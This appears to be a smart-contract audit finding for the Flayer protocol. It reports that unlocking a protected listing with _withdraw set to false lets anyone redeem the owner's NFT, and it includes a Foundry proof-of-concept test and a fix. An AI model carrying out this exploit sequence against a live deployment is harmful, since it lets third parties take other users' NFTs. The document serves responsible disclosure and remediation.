 Precise Lava Starfish

High

# Users may lose their ERC721 token if they unlockProtectedListing token with _withdraw = false

## Summary
Malicious users can redeem tokens before the user withdraws the token via `withdrawProtectedListing`.

## Vulnerability Detail
When users unlock protected listing, users can choose `_withdraw = false`, this ERC721 token will be left in the ProtectedListings contracts. Users can withdraw this token via `withdrawProtectedListing`.

The problem is that when we unlock one token from the protected listing with `_withdraw = false`, this token will be removed from `_protectedListings`. Normal users can redeem this token via locker's redeem() directly. The initial owner will lose their NFT token.

```solidity
    function unlockProtectedListing(address _collection, uint _tokenId, bool _withdraw) public lockerNotPaused {
        ...
        unchecked { --listingCount[_collection]; }
@>        delete _protectedListings[_collection][_tokenId];
        if (_withdraw) {
            locker.withdrawToken(_collection, _tokenId, msg.sender);
            emit ListingAssetWithdraw(_collection, _tokenId);
        } else {
            canWithdrawAsset[_collection][_tokenId] = msg.sender;
        }
        _createCheckpoint(_collection);
    }
    function withdrawProtectedListing(address _collection, uint _tokenId) public lockerNotPaused {
        address _owner = canWithdrawAsset[_collection][_tokenId];
        if (_owner != msg.sender) revert CallerIsNotOwner(_owner);
        delete canWithdrawAsset[_collection][_tokenId];
        locker.withdrawToken(_collection, _tokenId, msg.sender);
        emit ListingAssetWithdraw(_collection, _tokenId);
    }

```
### Poc
```solidity
    function test_PocUnlock() public {
        uint _tokenId = 0;
        uint96 _tokensTaken = 0.1 ether;
        // Set the owner to one of our test users (Alice)
        address payable _owner = users[0];

        uint startBalance = payable(_owner).balance;
        // Mint our token to the _owner and approve the {Listings} contract to use it
        erc721a.mint(_owner, _tokenId);

        // Create our listing
        vm.startPrank(_owner);
        erc721a.approve(address(protectedListings), _tokenId);
        _createProtectedListing({
            _listing: IProtectedListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: IProtectedListings.ProtectedListing({
                    owner: _owner,
                    tokenTaken: _tokensTaken,
                    checkpoint: 0
                })
            })
        });

        uint expectedCollateral = 1 ether - protectedListings.KEEPER_REWARD() - _tokensTaken;
        // Approve the ERC20 token to be used by the listings contract to cancel the listing
        locker.collectionToken(address(erc721a)).approve(address(protectedListings), _tokensTaken);
        protectedListings.unlockProtectedListing(address(erc721a), _tokenId, false);
        vm.stopPrank();
        address bob = vm.addr(2);
        ICollectionToken token = locker.collectionToken(address(erc721a));
        deal(address(token), bob, 10 ether);
        vm.startPrank(bob);
        token.approve(address(locker), 10 ether);
        uint[] memory tokenIds = new uint[](1);
        tokenIds[0] = 0;
        locker.redeem(address(erc721a), tokenIds);
        vm.stopPrank();
        vm.startPrank(_owner);
        protectedListings.withdrawProtectedListing(address(erc721a), 0);
        vm.stopPrank();
    }
```
## Impact
The owner may lose their NFT if they unlock protected listing with `_withdraw = false`.

## Code Snippet
https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L287-L315

## Tool used
Manual Review

## Recommendation
If `_withdraw` is false, we should not delete this token from `_protectedListings`.